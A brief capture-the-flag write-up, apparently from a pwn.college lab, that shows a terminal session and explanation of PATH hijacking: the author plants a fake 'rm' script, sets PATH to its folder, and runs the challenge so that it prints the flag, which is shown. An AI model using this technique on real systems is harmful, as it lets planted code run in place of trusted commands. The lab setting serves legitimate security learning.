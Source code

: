 # hijacking commands

```bash
hacker@path~hijacking-commands:~$ nano /home/hacker/windir/rm
hacker@path~hijacking-commands:~$ chmod +x /home/hacker/windir/rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker/windir
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{ci45c89lRzMNtXzBRJbBDTUSqT2.ddzNyUDLzATN0czW}
```

first i used nano to create rm in windir. then i used chmod to make sure that the rm file is executable and can be run by that particular shelll.
then i changed the path variable so that it will find out our fake rm first. then i executed the /challenge/run.
what happened here is that when i executed the /challenge/run command i read our fake rm file and then gave us the flag instead of deleting it.
